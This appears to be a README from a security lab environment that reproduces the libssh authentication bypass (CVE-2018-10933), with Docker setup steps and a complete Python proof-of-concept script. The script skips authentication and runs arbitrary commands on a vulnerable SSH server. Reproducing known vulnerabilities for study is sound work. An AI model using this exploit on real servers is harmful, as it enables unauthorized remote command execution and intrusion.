

# libssh Authentication Bypass Vulnerability(CVE-2018-10933)

[中文版本(Chinese version)](README.zh-cn.md)

libssh is a multiplatform C library implementing the SSHv2 protocol on client and server side. A logic vulnerability was found in libssh's server-side state machine. The attacker can send the `MSG_USERAUTH_SUCCESS` message before the authentication succeed. That can bypass the authentication and access the target SSH server.


Refer:

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

----------

## Setup

Start the environment:

```
docker-compose up -d
```

After the environment is started, we can connect the `your-ip:2222` port (account password: `myuser:mypassword`), which is a legal ssh login:


## Exploit

Referring to the POC given in https://www.seebug.org/vuldb/ssvid-97614, we can use the following script to proof the vulnerability.

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

```

You can execute arbitrary commands on the target server like following:


